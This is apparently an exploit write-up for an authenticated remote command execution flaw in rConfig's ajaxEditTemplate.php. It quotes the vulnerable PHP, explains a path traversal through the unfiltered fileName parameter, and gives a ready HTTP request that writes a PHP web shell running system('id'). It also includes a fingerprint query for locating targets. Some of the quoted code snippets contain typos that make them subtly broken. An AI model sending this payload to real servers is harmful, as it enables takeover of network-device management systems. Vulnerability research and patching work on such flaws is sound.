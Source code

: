 # rConfig ajaxEditTemplate.php Background remote command execution vulnerability

## Vulnerability Description

rConfig ajaxEditTemplate.php exists in the background remote command execution

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">rConfig</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="rConfig"</span>

## Vulnerability reappears

The vulnerability file is `rconfig/www/lib/ajaxHandlers/ajaxEditTemplate.php`



```php
<?php
require_once("/home/rconfig/classes/usersession.class.php");
require_once("/home/rconfig/classes/ADLog.class.php");
require_once("/home/rconfig/classes/spyc.class.php");
require_once("/home/rconfig/config/functions.inc.php");

$log = ADLog::getInstance();
if (!$session->logged_in) {
    echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
    $log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
    // need to add authentication to this script
    header("Location: " . $config_basedir . "login.php");
} else {
    $ymlData = Spyc::YAMLLoad($_POST['code']);
    $fileName = $_POST['fileName'];
    $check_yml_extension = explode('.', $fileName);
    if(@!array_key_exists($check_yml_extension[1])){
        if(@$check_yml_extension[1] != 'yml'){
            $fileName = $fileName . '.yml';
        }
    }
    $fullpath = $config_templates_basedir.$fileName;

    $username = $_SESSION['username'];
    require_once("../../../classes/db2.class.php");
    require_once("../../../classes/ADLog.class.php");
    $db2 = new db2();
    $log = ADLog::getInstance();

    if (!is_dir('templates')) {
        mkdir('templates');
        chown('templates', 'apache');
    }

    // if'' to create the filename based on the command if not created & chmod to 666
    if (!file_exists($fullpath)) {
        exec("touch " . $fullpath);
        chmod($fullpath, 0666);
    }
    // if the file is alread in place chmod it to 666 before writing info
    chmod($fullpath, 0666);

    // dump array into file & chmod back to RO
    $filehandle = fopen($fullpath, 'w+');
    file_put_contents($fullpath, $_POST['code']);
    fclose($filehandle);
    chmod($fullpath, 0444);
 
    $db2->query("UPDATE `templates` SET `fileName` = :fileName, `name` = :name, `desc` = :desc, `dateLastEdit` = NOW(), `addedby` = :username WHERE `id` = :id");
    $db2->bind(':id', $_POST['id']);
    $db2->bind(':fileName', $fullpath);
    $db2->bind(':name', $ymlData['main']['name']);
    $db2->bind(':desc', $ymlData['main']['desc']);
    $db2->bind(':username', $username);

    $queryResult = $db2->execute();
    /* Update successful */
    if ($queryResult && file_exists($fullpath)) {
        $response = "success";
        $log->Info("Success: Template: ".$fullpath." edited in templates folder");
    }
    /* Update failed */ else {
        $response = "failed";
        $log->Warn("Success: Could not edit Template ".$fullpath." in templates folder");
    }
    echo json_encode($response);    
}  // end session check
```



**The key code is as follows**



```php
// if'' to create the filename based on the command if not created & chmod to 666
    if (!file_exists($fullpath)) {
        exec("touch " . $fullpath);
        chmod($fullpath, 0666);
    }
    // if the file is alread in place chmod it to 666 before writing info
    chmod($fullpath, 0666);

    // dump array into file & chmod back to RO
    $filehandle = fopen($fullpath, 'w+');
    file_put_contents($fullpath, $_POST['code']);
    fclose($filehandle);
    chmod($fullpath, 0444;
```



**$fileName --> $fullpath ---> Write to a file, where the fileName parameter POST is passed in without filtering, resulting in the directory being uploaded anywhere**



```php
$ymlData = Spyc::YAMLLoad($_POST['code']);
    $fileName = $_POST['fileName'];
    $check_yml_extension = explode('.', $fileName);
    if(@!array_key_exists($check_yml_extension[1])){
        if(@$check_yml_extension[1] != 'yml'){
            $fileName = $fileName . '.yml';
        }
    }
    $fullpath = $config_templates_basedir+ .$fileName;
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/rc-7.png)



```php
$filehandle = fopen($fullpath, 'w+');
file_put_contents($fullpath, $_POST['code']);
```



POST code pass parameter to file test.php.yml, the request package is as follows



```php
POST /lib/ajaxHandlers/ajaxEditTemplate.php HTTP/1.1
Host: 
Cookie: PHPSESSID=fv8j4c6r4gofug1vr9v3efdvj7
Content-Length: 81
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

fileName=../www/test.php&code=<?php echo system('id');?>&id=1
```

- **Foto**

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/rc-8.png)



Write the file `test.php.yml` here, and use `../` to jump out of the restricted directory, access test.php.yml. In fact, test.php is accessed, and the id command is executed.



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/rc-9.png)



## 